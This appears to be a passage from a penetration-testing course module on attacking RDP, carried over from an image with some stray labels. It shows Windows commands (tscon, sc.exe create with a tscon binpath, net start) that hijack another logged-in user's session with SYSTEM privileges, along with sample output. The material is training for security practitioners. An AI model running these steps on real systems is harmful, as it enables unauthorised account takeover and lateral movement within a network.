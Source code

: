 Attacking RDP

```cmd-session
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.

Attacking RDP

```cmd-session
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

![](imgs/rdp_session-2-2.jpg)

To run the command, we can start the `sessionhijack` service :

Attacking RDP

```cmd-session
C:\htb> net start sessionhijack
```

Once the service is started, a new terminal with the `lewen` user session will appear. With this new account, we can attempt to discover what kind of privileges it has on the network, and maybe we'll get lucky, and the user is a member of the Help Desk group with admin rights to many hosts or even a Domain Admin.
